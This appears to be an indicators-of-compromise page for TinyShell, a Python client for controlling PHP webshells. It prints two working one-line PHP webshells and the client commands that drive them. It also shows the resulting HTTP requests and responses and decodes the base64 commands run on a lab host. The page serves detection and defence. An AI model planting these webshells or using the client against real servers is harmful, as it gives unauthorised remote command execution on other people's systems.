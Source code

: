# TinyShell IOCs

TinyShell is a python command shell used to control and excute commands through HTTP requests to a webshell. TinyShell acts as the interface to the remote webshells.
TinyShell is based on it's companion project SubShell (https://github.com/minisllc/subshell) and the China Chopper Webshell (https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html)

The following are some of the indicators generated by TinyShell.

## Post Mode

TinyShell operating in the Base64 HTTP Post Mode using PHP. Commands are sent via a HTTP POST request.

### Shell

```
<?php @eval(base64_decode($_POST['token']));?>
```

!!! Note 
    The "password" is set to token. This can be changed to any value. It is referenced as "--password=" by the TinyShell client.

### Client Command

```
python tinyshell.py --url http://10.203.63.80/upload/uploads/tinyshell.php --password=token --mode=base64_post --language=PHP
```

### HTTP Request Sent by Client

```
POST /upload/uploads/tinyshell.php HTTP/1.1
Host: 10.203.63.80
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)
Content-Length: 216
Content-Type: application/x-www-form-urlencoded
    
token=ZWNobygiQ1NSRl9UT0tFTjogIiAuIGJhc2U2NF9lbmNvZGUoc2hlbGxfZXhlYyhiYXNlNjRfZGVjb2RlKCdaR2x5SUdNNlhIaGhiWEJ3WEdoMFpHOWpjMXh3YjNKMFlXeGZORGhjZFhCc2IyRmtYSFZ3Ykc5aFpITT0nKSAuICIgMj4mMSIpKSAuICIgOlRPS0VOX0NTUkYiKTs%3D
```

### HTTP Response

```
HTTP/1.1 200 OK
Date: Wed, 13 Dec 2017 20:45:25 GMT
Server: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.5.28
X-Powered-By: PHP/5.5.28
Content-Length: 504
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
    
CSRF_TOKEN: IFZvbHVtZSBpbiBkcml2ZSBDIGhhcyBubyBsYWJlbC4KIFZvbHVtZSBTZXJpYWwgTnVtYmVyIGlzIDRFNjEtM0YzMQoKIERpcmVjdG9yeSBvZiBjOlx4YW1wcFxodGRvY3NccG9ydGFsXzQ4XHVwbG9hZFx1cGxvYWRzCgoxMi8xMy8yMDE3ICAwODo0MyBQTSAgICA8RElSPiAgICAgICAgICAuCjEyLzEzLzIwMTcgIDA4OjQzIFBNICAgIDxESVI+ICAgICAgICAgIC4uCjEyLzEzLzIwMTcgIDA4OjQzIFBNICAgICAgICAgICAgICAgIDQ2IHRpbnlzaGVsbC5waHAKICAgICAgICAgICAgICAgMSBGaWxlKHMpICAgICAgICAgICAgIDQ2IGJ5dGVzCiAgICAgICAgICAgICAgIDIgRGlyKHMpICAxOSwwMDksNDQ5LDk4NCBieXRlcyBmcmVlCg== :TOKEN_CSRF
```

!!! Note
    This is a standalone copy of TinyShell. If this was added to an existing file, the response would contain the HTML of the source page.
    
    The terms "CSRF_TOKEN:" and ":TOKEN_CSRF" are headers and footers that wrap the encoded response. These values are adjustable.

#### Decoding the Payload

__Base64 Payload__

`ZWNobygiQ1NSRl9UT0tFTjogIiAuIGJhc2U2NF9lbmNvZGUoc2hlbGxfZXhlYyhiYXNlNjRfZGVjb2RlKCdaR2x5SUdNNlhIaGhiWEJ3WEdoMFpHOWpjMXh3YjNKMFlXeGZORGhjZFhCc2IyRmtYSFZ3Ykc5aFpITT0nKSAuICIgMj4mMSIpKSAuICIgOlRPS0VOX0NTUkYiKTs=`

__Decode Step 1__

`echo("CSRF_TOKEN: " . base64_encode(shell_exec(base64_decode('ZGlyIGM6XHhhbXBwXGh0ZG9jc1xwb3J0YWxfNDhcdXBsb2FkXHVwbG9hZHM=') . " 2>&1")) . " :TOKEN_CSRF");`

__Decode Step 2__

```
dir c:\xampp\htdocs\portal_48\upload\uploads
```

!!! Note 
    This is the command set to the TinyShell web shell.

#### Decoding the Response

__Encoded Response__

`IFZvbHVtZSBpbiBkcml2ZSBDIGhhcyBubyBsYWJlbC4KIFZvbHVtZSBTZXJpYWwgTnVtYmVyIGlzIDRFNjEtM0YzMQoKIERpcmVjdG9yeSBvZiBjOlx4YW1wcFxodGRvY3NccG9ydGFsXzQ4XHVwbG9hZFx1cGxvYWRzCgoxMi8xMy8yMDE3ICAwODo0MyBQTSAgICA8RElSPiAgICAgICAgICAuCjEyLzEzLzIwMTcgIDA4OjQzIFBNICAgIDxESVI+ICAgICAgICAgIC4uCjEyLzEzLzIwMTcgIDA4OjQzIFBNICAgICAgICAgICAgICAgIDQ2IHRpbnlzaGVsbC5waHAKICAgICAgICAgICAgICAgMSBGaWxlKHMpICAgICAgICAgICAgIDQ2IGJ5dGVzCiAgICAgICAgICAgICAgIDIgRGlyKHMpICAxOSwwMDksNDQ5LDk4NCBieXRlcyBmcmVlCg== `

__Decoded Response__

```
Volume in drive C has no label.
Volume Serial Number is 4E61-3F31

Directory of c:\xampp\htdocs\portal_48\upload\uploads

12/13/2017  08:43 PM    <DIR>          .
12/13/2017  08:43 PM    <DIR>          ..
12/13/2017  08:43 PM                46 tinyshell.php
            1 File(s)             46 bytes
            2 Dir(s)  19,009,449,984 bytes free
```
!!! Note 
    This is the response rendered in the TinyShell console.

## Header Mode

TinyShell operating in the Base64 HTTP Header Mode using PHP. Commands are sent via a HTTP HEADE.

### Shell 

```
<?php @eval(base64_decode($_SERVER['HTTP_PSESSION']));?>
```
!!! Note 
    The "password" is set to "PSESSION". This can be changed to any value. It is referenced as "--password=" by the TinyShell client.

### Client Command

```
python tinyshell.py --url=http://10.203.63.80/upload/uploads/tinyshell.php--language=php --password=psession --mode=base64_header
```

### HTTP Request Sent by Client

```
POST /upload/uploads/tinyshell.php HTTP/1.1
Host: 10.203.63.80
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)
psession: ZWNobygiQ1NSRl9UT0tFTjogIiAuIGJhc2U2NF9lbmNvZGUoc2hlbGxfZXhlYyhiYXNlNjRfZGVjb2RlKCdZMlE9JykgLiAiIDI+JjEiKSkgLiAiIDpUT0tFTl9DU1JGIik7
Content-Length: 0
```

### HTTP Response

```
HTTP/1.1 200 OK
Date: Thu, 14 Dec 2017 02:46:56 GMT
Server: Apache/2.4.16 (Win32) OpenSSL/1.0.1p PHP/5.5.28
X-Powered-By: PHP/5.5.28
Content-Length: 80
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
    
CSRF_TOKEN: QzpceGFtcHBcaHRkb2NzXHBvcnRhbF80OFx1cGxvYWRcdXBsb2Fkcwo= :TOKEN_CSRFPOST /upload/uploads/tinyshell.php 
```

#### Decoding the Payload

__Base64 Payload__

`ZWNobygiQ1NSRl9UT0tFTjogIiAuIGJhc2U2NF9lbmNvZGUoc2hlbGxfZXhlYyhiYXNlNjRfZGVjb2RlKCdZMlE9JykgLiAiIDI+JjEiKSkgLiAiIDpUT0tFTl9DU1JGIik7`

__Decode Step 1__

`echo("CSRF_TOKEN: " . base64_encode(shell_exec(base64_decode('Y2Q=') . " 2>&1")) . " :TOKEN_CSRF");`

__Decode Step 2__

`cd`

#### Decoding the Response

__Encoded Response__

`QzpceGFtcHBcaHRkb2NzXHBvcnRhbF80OFx1cGxvYWRcdXBsb2Fkcwo=`

__Decoded Response__

`C:\xampp\htdocs\portal_48\upload\uploads`

!!! Note 
    This is the response rendered in the TinyShell console.

